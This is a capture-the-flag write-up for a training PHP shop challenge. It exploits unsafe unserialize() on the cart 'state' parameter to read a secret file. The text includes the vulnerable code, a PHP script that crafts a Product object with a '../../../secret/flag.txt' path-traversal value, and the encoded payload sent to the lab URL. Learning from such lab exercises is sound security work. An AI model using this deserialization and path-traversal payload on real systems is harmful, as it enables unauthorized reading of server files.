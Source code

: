 ## Challange
Read the flag in `/secret/flag.txt`. 
## Solution
In the source code we can see that the only function that can read a file is `getPicture()` in `Product.inc.php`. If we can alter the attribute `picture` we could inject the path `../../../secret/flag.txt` and read the content of the file through `file_get_contents`.

In `cart.php` if the isset `state` the code execute the function `toDict()` and return the result. In the normal behaviour `toDict()` is called from a `State` object but we can pass a serialized object of class `Product` which having the same method will return the content of the flag.
```php
if(isset($_REQUEST['token'])) {

    $state = $db->retrieveState($_REQUEST['token']);
    if(!$state) {
        http_response_code(400);
    } else {
        echo $state;
    }

} else if(isset($_REQUEST['state'])) {

    $state = State::restore($_REQUEST['state']);

    $enc = json_encode($state->toDict(), JSON_PRETTY_PRINT | JSON_NUMERIC_CHECK);

    if(isset($_REQUEST['save'])) {
        $tok = $db->saveState($enc);
        if(!$tok) {
            http_response_code(400);
        } else {
            echo json_encode(array("token" => $tok));
        }
    } else {
        echo $enc;
    }

} else {
    http_response_code(400);
}

?>
```
Supposing we can pass an altered `$_REQUEST['state']` the method `State::restore` does:
```php
static function restore($token) {
    return unserialize(gzuncompress(base64_decode($token)));
}
```
By crafting and executing this php code we can obtain a string which will return an object of class `Product` after being unserialized by `restore` method.
```php
<?php

class Product {

    private $id;
    private $name;
    private $description;
    private $picture = "../../../secret/flag.txt";
    private $price;
}

$r = new Product();
echo base64_encode(gzcompress(serialize($r)));

?>
```
By using Postman, send a POST request to `http://lolshop.training.jinblack.it/api/cart.php` with body of type form-data and parameter `state` `eJzztzK3Ugooyk8pTS5RsjK1qi62MjS0UmKACjFkpihZ+1kDBY2RBPMSc1MhwkYGSMIpqcXJRZkFJZn5eVBNZkiyBZnJJaVFQH1AXSZWSnp6+hBUnJpclFqin5aTmK5XUlECkjc0QdZXlJkMtq0WAJiQNKc=`.
This way after being restore, the method toDict() will be executed in the class Product and will return a JSON with this format:
```JSON
{
    "id": null,
    "name": null,
    "description": null,
    "picture": "YWN0Znt3ZWxjb21lX3RvX3RoZV9uZXdfd2ViXzA4MzZlZWY3OTE2NmI1ZGM4Yn0K",
    "price": null
}
```
`picture` is the base64 version of the content of the flag, by doing the decode64 we obtain the flag.